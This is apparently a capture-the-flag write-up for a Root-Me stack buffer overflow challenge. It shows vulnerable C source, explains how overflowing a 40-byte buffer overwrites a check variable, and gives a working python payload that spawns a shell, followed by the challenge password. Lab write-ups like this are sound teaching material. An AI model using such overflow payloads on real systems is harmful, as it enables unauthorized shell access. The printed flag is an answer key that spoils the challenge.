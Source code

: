 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
This challenge does not require to use **GDB**. Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**. Beside, **buf** takes "45 bytes" input while "40 bytes" in declaration, which makes it able to override the value of **check**.<br>
### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
 Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
 But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
 As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
 Pass: 1w4ntm0r3pr0np1s

